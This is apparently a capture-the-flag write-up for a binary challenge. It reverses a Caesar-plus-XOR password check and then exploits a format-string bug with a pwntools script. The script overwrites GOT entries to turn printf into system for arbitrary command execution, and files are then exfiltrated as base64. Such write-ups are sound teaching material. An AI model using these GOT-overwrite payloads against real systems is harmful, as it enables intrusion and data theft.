 ```yaml
---
title: Vault of Lost Memories
categories: p_ctf{4cqU1r3d_B3y0nd_7h3_M3m0r1es}
tags: 
completedDuringEvent: true
submitted: true
flags: flag: FLAG{0xdeadbeef}
draft: true
---
```

Let's just do a binary analysis using **IDA Pro**.

```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  unsigned int v4; // [rsp+Ch] [rbp-4h]

  sub_401216(a1, a2, a3);
  signal(14, handler);
  alarm(0x64u);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  if ( (unsigned int)sub_401259() )
  {
    v4 = -1;
    fwrite("password mismatch!\n", 1uLL, 0x17uLL, stderr);
  }
  else
  {
    v4 = 0;
    sub_401448();
  }
  return v4;
}
```

### Password Crack

It turns out that this program asks for password input, if the password entered is correct, then the program will run `sub_401448()`. However, before that, let's look at the `sub_401259()` function.

```c
__int64 sub_401259()
{
  char v1; // [rsp+7h] [rbp-39h]
  unsigned int i; // [rsp+8h] [rbp-38h]
  int j; // [rsp+Ch] [rbp-34h]
  char s[40]; // [rsp+10h] [rbp-30h] BYREF
  unsigned __int64 v5; // [rsp+38h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  for ( i = 0; i <= 0x1F; i += 4 )
    *(_DWORD *)&s[i] = 0;
  puts("Welcome to the digital vault of lost memories! ");
  puts("Enter the passcode to enter the lost memory world: ");
  printf(">>> ");
  fflush(stdout);
  fgets(s, 32, stdin);
  s[strlen(s) - 1] = 0;
  for ( j = 0; s[j]; ++j )
  {
    v1 = s[j];
    if ( ((*__ctype_b_loc())[v1] & 0x100) != 0 )
    {
      s[j] = (v1 - 65 + dword_404094) % 26 + 65;
    }
    else if ( ((*__ctype_b_loc())[v1] & 0x200) != 0 )
    {
      s[j] = (v1 - 97 + dword_404094) % 26 + 97;
    }
    s[j] ^= dword_404090;
  }
  return (unsigned int)-(memcmp("cLVQjFMjcFDGQ", s, 0xDuLL) != 0);
}
```

From the `sub_401259()` function we can see that the program performs a transformation on the password entered by the user. This transformation consists of two stages, namely Caesar cipher and XOR. After the transformation is complete, the program will compare the transformation result with the string `cLVQjFMjcFDGQ`. If the transformation result is the same as the string, the program will return a value of 0, otherwise, the program will return a value of -1.

```py
dword_404094 = 10   # The Caesar cipher shift value
dword_404090 = 53   # The XOR key

transformed_password = 'cLVQjFMjcFDGQ'
password = ''

for char in transformed_password:
    char = chr(ord(char) ^ dword_404090)

    if char.isupper():
        char = chr(((ord(char) - 65 - dword_404094) % 26) + 65)
    elif char.islower():
        char = chr(((ord(char) - 97 - dword_404094) % 26) + 97)
    
    password += char

print(password)
```

The correct password is `Lost_in_Light`.

### Format String Vulnerability

```c
int sub_401448()
{
  char s[136]; // [rsp+0h] [rbp-90h] BYREF
  unsigned __int64 v2; // [rsp+88h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  memset(s, 0, 0x80uLL);
  puts("How should we address you? ");
  printf(">>> ");
  fgets(s, 128, stdin);
  printf("hello ");
  printf(s);                                    // Format String
  printf("Here are the lost memories:");
  putc(10, stdout);
  return system("ls *.pdf");
}
```

From the `sub_401448()` function we can see that the program performs string formatting on the input given by the user. After that, the program will run `system("ls *.pdf")`. Because the program performs string formatting on the input given by the user, we can perform a string format attack to get the flag.

Because in string format we can write to the address we want, we can write to any address. Here I do a write on the `putc` function to return to the `sub_401448()` function and write on the `printf` function to run the `system` function.

```py
from pwn import *

binary = './challenge/chal'

# context.log_level = 'debug'
context.binary = binary

e = ELF(binary)
r = process(binary)
# r = remote('vault.ctf.prgy.in', 1337, ssl=True)

payload = fmtstr_payload(6, {
  e.got['putc']: 0x401448,              # Overwrite putc with sub_401448
  e.got['printf']: e.symbols['system']  # Overwrite printf with system
}, write_size='short')

r.recvuntil(b">>> ")
r.sendline(b"Lost_in_Light")

r.recvuntil(b">>> ")
r.sendline(payload)

r.interactive()
```

When this works, then every time we enter input, what should have been `printf(s);` will become `system(s);` where we can do any command. However, on the server there will be some obstacles, namely all files on the server are `.pdf` files. To get or download the `.pdf` file, we can use the `base64` command to encode the `.pdf` file into base64 and then we decode it locally.

In the last `.pdf` file, we will get a flag.

![alt text](image.png)
